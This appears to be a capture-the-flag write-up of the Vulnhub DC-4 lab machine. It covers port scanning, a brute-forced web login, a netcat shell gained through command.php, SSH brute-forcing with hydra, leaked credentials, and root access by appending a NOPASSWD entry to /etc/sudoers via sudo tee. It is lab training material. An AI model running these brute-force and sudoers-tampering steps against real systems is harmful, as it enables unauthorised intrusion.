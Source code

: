 <h1>DC-4 Write-up</h1>

<h2>NMAP</h2>

```
# Nmap 7.70 scan initiated Thu Sep 26 15:44:09 2019 as: nmap -sC -sV -oN nmap -p80,22 -v --script vuln 192.168.56.49
Nmap scan report for 192.168.56.49
Host is up (0.00012s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    nginx 1.15.10

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 26 15:45:30 2019 -- 1 IP address (1 host up) scanned in 80.39 seconds

```


<h3>PORT 80</h3>

<h4>Brute Force :</h4>

Weak password:

```
username : admin
password : happy
```

use burp to intercept  command.php request to get nc shell

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-4/images/wwwshell.png)


<h2>Privilege Escalation :</h2>

Found password backup file in /home/jim/backups/ named old-passwords.bak

Bruteforcing ssh with old-passwords.bak list :

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-4/images/hydraonjim.png)

```
hydra -l jim -P old-passwords.bak 192.168.56.49 ssh

Username : jim
Password : jibril04
```


from /var/mail jim recieved a mail contains password of charles user

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-4/images/mail.png)

```
username : charles
password : ^xHhA&hvim0y
```

<h3>ROOT PRIV ESC :</h3>

```sudo -l```

I can run teehee as root 

Source : https://gtfobins.github.io/gtfobins/tee/#sudo

```
LFILE=/etc/sudoers
echo "charles ALL=(ALL) NOPASSWD: ALL" | sudo /usr/bin/teehee -a "$LFILE"
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-4/images/rootflag%20and%20privesc.png)
